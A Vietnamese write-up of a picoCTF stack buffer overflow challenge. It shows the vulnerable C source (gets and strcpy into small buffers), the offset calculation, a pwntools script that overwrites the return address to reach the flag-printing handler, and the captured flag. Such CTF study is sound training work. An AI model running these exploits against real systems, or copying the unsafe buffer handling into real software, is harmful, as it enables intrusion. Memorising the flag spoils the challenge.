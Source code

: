 **#1. Tìm lỗi**

   Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **aragv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

   Đọc qua file source thì ta thấy có câu lệnh gets và hàm sigsegv_handler(hàm lấy flag) -> Nghĩ ngay đến lỗi bof
   Sử dụng lệnh 'checksec' thì ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

   ![checksec.png](photo/checksec.png)

**2. Ý tưởng**

   Chúng ta sẽ nhập tràn biến buf1 nhờ lệnh gets đến ret rồi chèn địa chỉ hàm sigsegv_handler vào

**3. Viết script**

   Sử dụng lệnh 'file' kiểm tra file thực thi

   ![file.png](photo/file.png)

   Ta thấy là file 32bit

   ![buf1.png](photo/buf1.png)

   Địa chỉ hiện tại của buf1 là: ebp - 0x74 -> Khoảng cách từ buf1 đến ret là: 0x74 + 0x4 = 120

   ![function_flag.png](photo/function_flag.png)

   Ta có địa chỉ hàm sigsegv_handler là: 0x5655630d
   Vậy ta có script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 65355)

payload = b'a'*120 + p32(0x5655630d)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   ![flag.png](photo/flag.png)

   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
